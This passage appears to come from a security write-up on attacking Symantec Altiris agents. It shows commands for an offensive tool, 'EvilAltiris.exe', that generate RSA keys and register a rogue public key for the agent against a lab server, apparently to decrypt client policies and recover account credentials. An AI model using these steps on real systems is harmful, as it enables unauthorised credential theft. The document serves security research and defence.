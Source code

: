 Then, we generate a pair of RSA keys, which will be used by the *Notification Server* to encrypt the *Client Policies*.

```batch
"EvilAltiris.exe" GenerateKeys
```

![Generating RSA keys](/assets/posts/2025-06-11-checking-symantec-account-credentials-privesccheck/evilaltiris-low-generatekeys.png)
*Generating RSA keys*

The newly generated RSA keys are then applied to the current agent.

```batch
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Altiris\Altiris Agent\Servers"
"EvilAltiris.exe" SetPublicKey
  /key:"AAAAAQABuBBwrm4i0qtsnb36XbRiHKumlk6O6Dey7m9+i+an1xVlKRmgndzp3BaQWmu6xw1X6Eoo3Jyrz2QE+JLOz0M/Zc/0WMURcF5QJ11d2LqrdfbMy3pIXUsEQMiDtIfo4gHqA0zP5JJyWYWjF46JA5RWdP1hXzTT/T8IUQ5yxt8xNSfaHHhLiNSeyuSVEqWMI0gx67z2Dzs7xHRTBQ20A6wjbMeMehYtiSqoP5/vPt/hk0iOpsSgcVMi5R9GcI/0wemiQsbjylsyMWJ1mLwU7ddxSnYYDa3u89FnZf2cIa+bjUle+R5XPgL5WZrrYlmjaR+O/uI+3Ms+Nztn5ZBn9/1+MQ=="
  /url:"http://srv02.foundation.local"
  /machine:"{59067291-0E3D-44DE-85FD-BDE4B5632648}"
```
